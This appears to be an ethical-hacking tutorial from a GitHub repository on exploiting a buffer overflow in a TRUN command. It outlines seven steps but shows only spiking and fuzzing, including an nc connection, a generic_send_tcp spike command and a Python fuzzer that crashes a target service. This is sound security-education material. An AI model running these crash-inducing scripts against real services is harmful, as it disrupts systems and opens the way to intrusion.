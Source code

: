 ## Overview
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding bad characters
6. Finding the right module
7. Generating shellcode

# 1. Spiking
Spiking allows us to find the functions/commands within a program that are vulnerable.

First, we attach the process unto our Debugger and then connect to it:

```bash
nc -nv PROCESS PORT
```
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/9b63dcf6-11cb-4b21-996e-4deb42329361)

In our case, we see multiple functions that we could spike using:
```
generic_send_tcp 0.0.0.0 PORT spike.spk 0 0
```
![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/d2219e12-8268-4dd9-813c-7d9650f7d33f)

# 2. Fuzzing
Now that we know what the vulnerable function/command is, we can now 'fuzz' it in order to find the approximate memory location to where the program crashes.
In our example, the TRUN command/function was found to be vulnerable and thus we want to probe it with a set of simple buffers. 
You might need to modify the script with execution rights:

```python
#!/usr/bin/python3
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('TARGET-IP',TARGET-PORT))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

Once the program crashes, Control+C and check the bytes section.
